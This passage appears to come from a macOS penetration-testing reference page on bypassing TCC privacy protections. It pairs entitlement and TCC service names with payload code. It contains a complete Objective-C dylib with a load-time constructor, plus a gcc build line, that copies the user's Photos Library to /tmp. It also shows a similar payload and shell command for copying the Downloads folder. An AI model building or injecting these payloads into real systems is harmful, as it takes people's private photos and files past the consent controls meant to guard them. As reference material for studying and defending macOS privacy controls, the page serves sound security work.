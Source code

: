 ```objectivec

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Downloads"];
    NSString *tmpPhotosPath = @"/tmp/downloads";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Dowloads` to `/tmp/downloads`.

```bash
cp -r "$HOME/Downloads" "/tmp/downloads"
```
{% endtab %}
{% endtabs %}

### Photos Library

* **Entitlement**: `com.apple.security.personal-information.photos-library`
* **TCC**: `kTCCServicePhotos`

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Pictures/Photos Library.photoslibrary` to `/tmp/photos`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Pictures/Photos Library.photoslibrary"];
    NSString *tmpPhotosPath = @"/tmp/photos";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
